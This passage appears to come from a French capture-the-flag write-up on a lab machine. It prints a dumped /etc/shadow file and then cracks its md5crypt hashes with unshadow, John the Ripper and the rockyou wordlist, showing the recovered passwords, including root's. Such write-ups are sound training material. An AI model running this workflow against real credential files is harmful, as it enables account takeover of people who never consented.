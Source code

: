 ```console
nobody:*:14309:0:99999:7:::
dbus:!!:14309:0:99999:7:::
rpm:!!:14309:0:99999:7:::
apache:!!:14309:0:99999:7:::
distcache:!!:14309:0:99999:7:::
ntp:!!:14309:0:99999:7:::
nscd:!!:14309:0:99999:7:::
vcsa:!!:14309:0:99999:7:::
webalizer:!!:14309:0:99999:7:::
dovecot:!!:14309:0:99999:7:::
mysql:!!:14309:0:99999:7:::
netdump:!!:14309:0:99999:7:::
pcap:!!:14309:0:99999:7:::
avahi:!!:14309:0:99999:7:::
named:!!:14309:0:99999:7:::
mailnull:!!:14309:0:99999:7:::
smmsp:!!:14309:0:99999:7:::
haldaemon:!!:14309:0:99999:7:::
rpc:!!:14309:0:99999:7:::
xfs:!!:14309:0:99999:7:::
gdm:!!:14309:0:99999:7:::
rpcuser:!!:14309:0:99999:7:::
nfsnobody:!!:14309:0:99999:7:::
sshd:!!:14309:0:99999:7:::
dstevens:$1$fU8HOHqa$N542xtl0ft8NmsYkv5NFo/:14309:0:99999:7:::
achen:$1$kxyn25Oz$w.MMADGQYIq4F52hi9DUQ.:14309:0:99999:7:::
pmoore:$1$p0RXlomV$m03UsjoTZ08qG8gbWHgST0:14309:0:99999:7:::
jdurbin:$1$CYmEyuc.$FXAeZHkhywwENbqE8h0O.0:14309:0:99999:7:::
sorzek:$1$cWeWNRdU$VTtlKsoRBmhMghnkSwqCQ.:14312:0:99999:7:::
ghighland:$1$ooKvtZEY$N2RpSaIylgFlHnBkbwUGz0:14309:0:99999:7:::
ossec:!!:14312:0:99999:7:::
ossecm:!!:14312:0:99999:7:::
ossecr:!!:14312:0:99999:7:::
[root@localhost ~]#
```

Un troisième dictionnaire est appelé à la rescousse : Rockyou.

```console
root@blinils:~# unshadow passwdCTF4.txt shadowCTF4.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
seventysixers    (achen)
root1234         (root)
Homesite         (pmoore)
5g 0:00:23:49 DONE (2018-02-08 00:14) 0.003497g/s 10030p/s 34296c/s 34296C/s       ...
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@blinils:~# john passwd.db --show
root:root1234:0:0:root:/root:/bin/bash
achen:seventysixers:501:501:Andrew Chen:/home/achen:/bin/bash
pmoore:Homesite:502:502:Phillip Moore:/home/pmoore:/bin/bash
sorzek:pacman:504:504:Sally Orzek:/home/sorzek:/bin/bash
ghighland:undone1:505:505:Greg Highland:/home/ghighland:/bin/bash

5 password hashes cracked, 2 left
```
